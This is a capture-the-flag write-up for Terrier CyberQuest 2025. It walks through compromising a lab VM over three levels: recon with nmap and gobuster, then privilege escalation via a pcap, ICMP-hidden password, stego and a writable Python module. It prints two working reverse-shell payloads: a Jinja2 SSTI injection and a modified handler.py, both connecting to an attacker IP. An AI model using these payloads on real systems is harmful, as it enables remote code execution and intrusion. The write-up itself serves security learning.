 ```yaml
---
title: "Indian Army Terrier CyberQuest 2025"
date: 2025-03-29
layout: writeup
platform: Terrier CyberQuest 2025
categories: [web, pwn, pentesting, rev, forensics, steg]
tags: [web, pwn, pentesting, rev, forensics, steg]
---
```


# Terrier CyberQuest 2025

Writeups for all the challenges I solved in Terrier CyberQuest 2025
We're given a vm file. I have not solved many "rootme style" boxes like these, so it was quite fun.

## Level 1

First I had to figure out the IP address of the VM. Since we don't have any login credentials, I did an `arp-scan` on my local network to find the IP address of the VM.

Running an nmap scan on the IP address, I found that port 5000 was open.
It had a python web server running.
Static site, not much to see there.

I ran `gobuster` to find any hidden directories.
It found a `/page` directory.

The directory had only a textbox and just echoed back what I typed.
Trying out basic SSTI payloads for jinja2 like `{{ 7*7 }}, I found that it was indeed vulnerable to SSTI.

Exploiting the SSTI vulnerability, I was able to get a reverse shell as the `web-ssti` user.

```py
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"172.22.78.1\",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}
```

There I found the first flag.

# Level 2

Some basic looking around tells us that there are 3 other users on the system: `flower`, `leaf`, and `stem`.

I had to somehow escalate my privileges to the `flower` user.

I ran linpeas to find any potential privilege escalation vectors.
There was a suspicious looking folder `/network_logs`.

It contained a note and a pcap file.

```
$ cat admin_note.txt
Hello Reader, In this pcap file administrator send the password through a media file and it is password protected .... password also transmitted through network.
```

Now this is where we struggled a bit.
I was immediately able to find the image file in the pcap using wireshark.
It was just an http file transfer.
But I couldn't find the password anywhere in the pcap.

The organizers were kind enough to give us a hint to focus on how users ping each other.
I realized that the password might be hidden in the ICMP packets.
At the end of every ping request, there was a small string of random but readable.
I extracted all those strings and combined them to get the password which was base62 encoded.

Now i was able to get the password for the flower user using OpenStego and ssh into the flower user.
The flag was in the home directory.

# Level 3

Now I had to escalate my privileges to the `leaf` user.
I ran linpeas again to find any potential privilege escalation vectors.
There was a folder called `/handler/` with 2 python files inside.

The files were owned by the `leaf` user but one of the files `handler.py` was writable by our user group.

The `dispatcher.py` file was running as a service and it was importing the `handler.py` file.
It checked if there was any listener open on port 8080 and if there was, it would run the `handler.py` file.

I modified the `handler.py` file to get a reverse shell back to my machine.

```py
import sys,socket,os,pty

s=socket.socket()
s.connect(("172.22.78.1",4444))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")
```

I got a reverse shell as the `leaf` user.
The flag was in the home directory again.
